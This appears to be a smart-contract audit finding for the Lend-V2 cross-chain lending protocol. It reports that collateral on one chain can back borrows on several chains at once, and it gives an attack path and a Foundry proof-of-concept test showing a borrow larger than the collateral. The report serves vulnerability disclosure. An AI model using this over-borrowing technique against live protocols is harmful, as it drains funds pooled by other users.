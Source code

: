 Muscular Eggshell Pike

High

# Users can borrow more than their supplied collateral and can drain protocol funds

### Summary

The protocol allows users to supply collateral on one chain (e.g., Chain A) and then borrow against that collateral on multiple destination chains (e.g., Chain B and Chain C). Because each destination chain does not track the user's total collateral usage across all chains, the user can borrow up to their maximum allowed amount on each chain independently. This results in the user’s total borrowed amount across all chains exceeding their original collateral, leaving the protocol overexposed and under-collateralized. A malicious user could repeat this process across multiple chains and drain protocol funds by redeeming their collateral, keeping the remaining borrowed assets, re-supply, then over-borrow again.

### Root Cause

In the [`CrossChainRouter`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/CrossChainRouter.sol#L113) and [`LendStorage`](https://github.com/sherlock-audit/2025-05-lend-audit-contest/blob/main/Lend-V2/src/LayerZero/LendStorage.sol) contracts, there is no check to verify the borrow amount exceeds the supplied collateral  across multiple chains

### Internal Pre-conditions

1. The chains that a user borrows must have underlying tokens to withdraw

### External Pre-conditions

NA

### Attack Path

_Assume that all chains have underlying tokens already supplied_

1. Attacker supplies 3 ETH of collateral on Chain A
2. Borrows 2 ETH worth of tokens on Chain B, using their Chain A collateral
3. Borrows same amount (2 ETH) on Chain C, using their Chain A collateral
4. Result: over-borrowed position
5. Attacker can repay cross-chain borrow, gaining their collateral back and keeping borrowed ETH from Chain C without collateral to liquidate

### Impact

The attacker can now redeem their original collateral, or simply keep the borrowed tokens from both chains, draining protocol liquidity. This process can be repeated or scaled up, draining even more funds.

### PoC

To run the test, first add 2 global variables towards the top of `TestBorrowingCrossChain.t.sol`:
<details>
<summary>Diff</summary>

```diff
contract TestBorrowingCrossChain is LayerZeroTest {
    HelperConfig public helperConfig;
    address public layerZeroEndpoint;
    address[] public supportedTokensA;
    address[] public supportedTokensB;
    address[] public supportedTokensC;
    bool public isTestnet;
    address public deployer;

    // Chain A (Source)
    CrossChainRouterMock public routerA;
    LendStorage public lendStorageA;
    CoreRouter public coreRouterA;
    Lendtroller public lendtrollerA;
    InterestRateModel public interestRateModelA;
    SimplePriceOracle public priceOracleA;
    address[] public lTokensA;

    // Chain B (Destination)
    CrossChainRouterMock public routerB;
    LendStorage public lendStorageB;
    CoreRouter public coreRouterB;
    Lendtroller public lendtrollerB;
    InterestRateModel public interestRateModelB;
    SimplePriceOracle public priceOracleB;
    address[] public lTokensB;

    uint32 constant CHAIN_A_ID = 1;
    uint32 constant CHAIN_B_ID = 2;
+  uint32 constant CHAIN_C_ID = 3;

    EndpointV2 public endpointA;
    EndpointV2 public endpointB;
    SimpleMessageLib public simpleMsgLibA;
    SimpleMessageLib public simpleMsgLibB;
+  SimpleMessageLib public simpleMsgLibC;
```

</details>

Then add these helper functions:
<details>
<summary>Functions</summary>

```solidity
 function _supplyC(uint256 amount, CoreRouter coreRouterC, LendStorage lendStorageC, CrossChainRouterMock routerC) internal returns (address token, address lToken) {
        // supplied by other user (not deployers collateral)
        address user = makeAddr("user");
        vm.deal(user, 1000 ether);

        // Deal ether for LayerZero fees
        vm.deal(address(routerC), 1 ether);
        

        token = supportedTokensC[0];
        lToken = lendStorageC.underlyingTolToken(token);

        vm.startPrank(user);
        ERC20Mock(token).mint(user, amount);
        IERC20(token).approve(address(coreRouterC), amount);
        coreRouterC.supply(amount, token);
        vm.stopPrank();
    }

    function _addUnderlying(LendStorage lendStorageC, CrossChainRouterMock routerC, SimplePriceOracle priceOracleC, address[] memory lTokensC) internal {
        vm.startPrank(routerC.owner());
        for (uint256 i = 0; i < supportedTokensC.length; i++) {
            lendStorageC.addUnderlyingToDestUnderlying(supportedTokensC[i], supportedTokensA[i], CHAIN_A_ID);
            // Add mapping from underlying token to destination lToken
            lendStorageC.addUnderlyingToDestlToken(supportedTokensC[i], lTokensA[i], CHAIN_A_ID);
        }
        vm.stopPrank();

        for (uint256 i = 0; i < supportedTokensC.length; i++) {
            priceOracleC.setDirectPrice(supportedTokensC[i], 1e18);
        }
    }

    function _addUnderlyingChainA(address[] memory lTokensC) internal {
        vm.startPrank(routerA.owner());
        for (uint256 i = 0; i < supportedTokensA.length; i++) {
            // Map from Chain A's token to Chain C's token
            lendStorageA.addUnderlyingToDestUnderlying(supportedTokensA[i], supportedTokensC[i], CHAIN_C_ID);
            // Map from Chain A's token to Chain C's lToken
            lendStorageA.addUnderlyingToDestlToken(supportedTokensA[i], lTokensC[i], CHAIN_C_ID);
        }
        vm.stopPrank();
    }

    function _setUpCrossChainRouterC() internal returns (CoreRouter, LendStorage, CrossChainRouterMock) {
        // Setup
        // Chain C (Destination 3)
        EndpointV2 endpointC;
        
        Deploy deployC = new Deploy();
        (
            address priceOracleAddressC,
            ,
            ,
            address[] memory lTokenAddressesC,
            address payable routerAddressC,
            address payable coreRouterAddressC,
            address lendStorageAddressC,
            , 
            address[] memory _supportedTokensC
        ) = deployC.run(address(endpointC));

        CrossChainRouterMock routerC = CrossChainRouterMock(payable(routerAddressC));
        LendStorage lendStorageC = LendStorage(lendStorageAddressC);
        CoreRouter coreRouterC = CoreRouter(coreRouterAddressC);

        SimplePriceOracle priceOracleC = SimplePriceOracle(priceOracleAddressC);
        address[] memory lTokensC = lTokenAddressesC;
        supportedTokensC = _supportedTokensC;

        _addUnderlying(lendStorageC, routerC, priceOracleC, lTokensC);
        _addUnderlyingChainA(lTokensC);
        
        vm.label(address(routerC), "Router C");
        routerC = CrossChainRouterMock(payable(routerAddressC));

        routerC.setPairContract(payable(address(routerA)));
        routerA.setPairContract(payable(address(routerC)));

        return (coreRouterC, lendStorageC, routerC);
    }
```

</details>

And finally, paste the test:

<details>
<summary>Test</summary>

```solidity
function test_that_user_can_borrow_more_than_collateral() public {
        uint256 amountToSupply = 3e18;
        uint256 amountToBorrow = 2e18;

        // Fund Router A with ETH for LayerZero fees
        vm.deal(address(routerA), 2 ether);

        // First supply tokens as collateral on Chain A
        (address tokenA ,) = _supplyA(amountToSupply);

        // Then supply tokens as borrowable on Chain B
        // @note - Has to be enough tokens to cover the borrow on the destination chain...
        _supplyB(amountToSupply);

        // Verify token mappings
        address destToken = lendStorageA.underlyingToDestUnderlying(tokenA, CHAIN_B_ID);

        require(destToken != address(0), "Token mapping not set up correctly");

        // Get initial balances
        uint256 initialTokenBalance = IERC20(destToken).balanceOf(deployer);

        vm.startPrank(deployer);

        // Expect BorrowSuccess event
        vm.expectEmit(true, true, true, true);
        emit BorrowSuccess(deployer, tokenA, amountToBorrow);

        // Call borrowCrossChain with token address
        routerA.borrowCrossChain(amountToBorrow, tokenA, CHAIN_B_ID);

        // Verify the borrow was successful
        assertEq(
            IERC20(destToken).balanceOf(deployer) - initialTokenBalance,
            amountToBorrow,
            "Should receive correct amount of borrowed tokens"
        );

        vm.stopPrank();

        uint256 tokenBalanceAfter1 = IERC20(destToken).balanceOf(deployer);

        // ChainC setup and borrow
        (CoreRouter coreRouterC, LendStorage lendStorageC, CrossChainRouterMock routerC) = _setUpCrossChainRouterC();

        // Supplied by other user (not deployers collateral)
        _supplyC(amountToSupply * 2, coreRouterC, lendStorageC, routerC);

        // Verify token mappings
        address destToken2 = lendStorageA.underlyingToDestUnderlying(tokenA, CHAIN_C_ID);

        require(destToken2 != address(0), "Token mapping not set up correctly");

        vm.startPrank(deployer);

        // Expect BorrowSuccess event
        vm.expectEmit(true, true, true, true);
        emit BorrowSuccess(deployer, tokenA, amountToBorrow);

        // Call borrowCrossChain with token address
        routerA.borrowCrossChain(amountToBorrow, tokenA, CHAIN_C_ID);

        vm.stopPrank();

        uint256 tokenBalanceAfter2 = IERC20(destToken2).balanceOf(deployer);
        console2.log("Token balance after borrowing on Chain C:", tokenBalanceAfter2 + tokenBalanceAfter1);
        console2.log("Amount of collateral supplied:", amountToSupply);

        // Verify the user borrowed more than their collateral
        assertGt(
            IERC20(destToken).balanceOf(deployer) + IERC20(destToken2).balanceOf(deployer),
            amountToSupply,
            "Should own more than collateral supplied"
        );
    }
```
</details>

You will see a log output like so:

<details>
<summary>Logs</summary>

```bash
[PASS] test_that_user_can_borrow_more_than_collateral() (gas: 65988414)
Logs:
  Token balance after borrowing on Chain C: 4000000000000000000
  Amount of collateral supplied: 3000000000000000000
```

</details>


### Mitigation

Implement global collateral and borrow accounting across all chains.